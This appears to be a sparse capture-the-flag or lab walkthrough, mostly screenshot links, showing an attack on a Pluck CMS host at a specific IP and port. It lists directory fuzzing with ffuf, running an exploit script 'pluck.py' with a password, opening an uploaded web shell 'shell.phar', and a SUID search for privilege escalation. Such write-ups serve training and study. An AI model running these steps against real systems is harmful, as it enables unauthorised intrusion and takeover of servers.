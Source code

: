 62.173.140.174:18000

![image](https://user-images.githubusercontent.com/62753044/232470451-dc12ae4f-c0ad-4eea-9330-2185711e60fc.png)

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://62.173.140.174:18000/FUZZ.php

![image](https://user-images.githubusercontent.com/62753044/232470497-7b480313-30a0-4879-a9ca-37ae333b8f88.png)

https://www.exploit-db.com/

![image](https://user-images.githubusercontent.com/62753044/232470532-377d213e-3613-422f-aae1-80e05482bda5.png)

![image](https://user-images.githubusercontent.com/62753044/232470554-d0c0698a-09fd-4736-96dc-aa0d2ddeec97.png)

![image](https://user-images.githubusercontent.com/62753044/232470562-9bc477bf-a32d-4463-941b-c3b7a7cf7306.png)

![image](https://user-images.githubusercontent.com/62753044/232470572-9649635e-19f9-48b5-a5a9-5bb9157d3471.png)

python3 pluck.py 62.173.140.174 18000 liverpool ""

![image](https://user-images.githubusercontent.com/62753044/232470608-b779d938-00d2-4476-831d-eefdd7a53707.png)

http://62.173.140.174:18000/files/shell.phar

![image](https://user-images.githubusercontent.com/62753044/232470645-8a389a66-130a-4638-a106-f03117839217.png)

find / -user root -perm -4000 -print 2>/dev/null

![image](https://user-images.githubusercontent.com/62753044/232470696-90df487f-fb18-46ce-af41-71edefcf2321.png)

![image](https://user-images.githubusercontent.com/62753044/232472019-89153e96-0a60-4445-bc7f-90ca95d223bb.png)

![image](https://user-images.githubusercontent.com/62753044/232472463-03194abf-c54b-490f-ba9d-fd53099fdb69.png)

![image](https://user-images.githubusercontent.com/62753044/232472878-e784c124-ce40-4b6c-9fe9-442e0331e55d.png)

![image](https://user-images.githubusercontent.com/62753044/232473124-74a86f98-ba36-4f10-9ec0-cb6e76415e2e.png)


